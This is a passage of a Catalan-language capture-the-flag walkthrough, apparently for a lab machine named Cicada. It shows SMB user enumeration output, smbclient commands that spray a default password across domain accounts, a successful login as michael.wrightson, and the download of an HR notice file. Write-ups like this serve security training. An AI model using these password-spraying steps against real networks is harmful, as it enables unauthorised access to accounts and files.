 Si fem cat al fitxer que ens ha generat 'crackmapexec', al final del fitxer, tenim el que semblen ser 5 usuaris (obviant Dev Support) que podrien ser candidats a tenir la contrasenya per defecte que hem trobat:
```
SMB                      10.10.11.35     445    CICADA-DC        1104: CICADA\john.smoulder (SidTypeUser)
SMB                      10.10.11.35     445    CICADA-DC        1105: CICADA\sarah.dantelia (SidTypeUser)
SMB                      10.10.11.35     445    CICADA-DC        1106: CICADA\michael.wrightson (SidTypeUser)
SMB                      10.10.11.35     445    CICADA-DC        1108: CICADA\david.orelious (SidTypeUser)
SMB                      10.10.11.35     445    CICADA-DC        1109: CICADA\Dev Support (SidTypeGroup)
SMB                      10.10.11.35     445    CICADA-DC        1601: CICADA\emily.oscars (SidTypeUser)
```

Ara provem al connexió amb aquests 5 usuaris i la contrasneya per defecte, a veure si amb algun obtenim algun resultat exitós i ens ha funcionat amb l'usuari michael.wrightson:
```
┌──(kali㉿kali)-[~]
└─$ smbclient //10.10.11.35/HR -U john.smoulder%Cicada$M6Corpb*@Lp#nZp!8

                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~]
└─$ smbclient //10.10.11.35/HR -U sarah.dantelia%Cicada$M6Corpb*@Lp#nZpls

session setup failed: NT_STATUS_LOGON_FAILURE
                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~]
└─$ smbclient //10.10.11.35/HR -U michael.wrightson$M6Corpb*@Lp#nZpls

Password for [michael.wrightson*@Lp#nZpls]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Thu Mar 14 13:29:09 2024
  ..                                  D        0  Thu Mar 14 13:21:29 2024
  Notice from HR.txt                  A     1266  Wed Aug 28 19:31:48 2024

                4168447 blocks of size 4096. 334453 blocks available

```

Descarreguem el fitxer trobat:
```
┌──(kali㉿kali)-[~]
└─$ smbclient //10.10.11.35/HR -U michael.wrightson                   

Password for [WORKGROUP\michael.wrightson]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Thu Mar 14 13:29:09 2024
  ..                                  D        0  Thu Mar 14 13:21:29 2024
  Notice from HR.txt                  A     1266  Wed Aug 28 19:31:48 2024

                4168447 blocks of size 4096. 334448 blocks available
smb: \> get "Notice from HR.txt"
getting file \Notice from HR.txt of size 1266 as Notice from HR.txt (1.9 KiloBytes/sec) (average 1.9 KiloBytes/sec)
smb: \> exit
```
